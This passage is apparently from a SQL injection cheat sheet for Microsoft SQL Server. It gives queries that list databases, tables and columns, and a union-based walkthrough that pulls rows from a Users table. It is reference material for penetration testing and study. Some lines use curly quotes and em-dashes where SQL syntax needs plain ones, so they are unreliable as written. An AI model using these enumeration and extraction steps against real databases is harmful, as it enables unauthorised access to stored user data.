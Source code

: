 ```sql
SELECT name FROM master..sysdatabases;
SELECT DB_NAME(N); — for N = 0, 1, 2, …
SELECT STRING_AGG(name, ', ') FROM master..sysdatabases; -- Change delimeter value such as ', ' to anything else you want => master, tempdb, model, msdb   (Only works in MSSQL 2017+)
```

## MSSQL List columns

```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’); — for the current DB only
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, column_name FROM information_schema.columns
```

## MSSQL List tables

```sql
SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for views
SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, table_name FROM information_schema.columns
SELECT STRING_AGG(name, ', ') FROM master..sysobjects WHERE xtype = 'U'; -- Change delimeter value such as ', ' to anything else you want => trace_xe_action_map, trace_xe_event_map, spt_fallback_db, spt_fallback_dev, spt_fallback_usg, spt_monitor, MSreplication_options  (Only works in MSSQL 2017+)
```


## MSSQL Union Based

```sql
-- extract databases names
$ SELECT name FROM master..sysdatabases
[*] Injection
[*] msdb
[*] tempdb

-- extract tables from Injection database
$ SELECT name FROM Injection..sysobjects WHERE xtype = 'U'
[*] Profiles
[*] Roles
[*] Users

-- extract columns for the table Users
$ SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Users')
[*] UserId
[*] UserName

-- Finally extract the data
$ SELECT  UserId, UserName from Users
```

